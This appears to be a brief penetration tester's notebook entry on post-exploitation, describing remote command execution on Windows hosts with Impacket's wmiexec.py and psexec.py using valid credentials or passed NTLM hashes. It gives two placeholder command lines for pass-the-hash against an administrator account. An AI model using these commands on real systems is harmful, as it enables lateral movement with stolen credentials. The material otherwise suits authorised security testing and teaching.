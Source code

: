 ```yaml
---
tags: [PostEx]
title: PostEx/WmiExec and PSExec
created: '2020-01-04T23:03:37.609Z'
modified: '2020-01-04T23:18:01.491Z'
---
```


# PostEx/WmiExec and PSExec
Execute commands on remote machines with valid creds or by passing the hash. If the LM is unused (most of the time) just use the NTLM hash twice
```
wmiexec.py administrator@<target> -hashes <LM Hash>:<NTLM Hash>
```
```
psexec.py administrator@<target> -hashes <LM Hash>:<NTLM Hash>
```
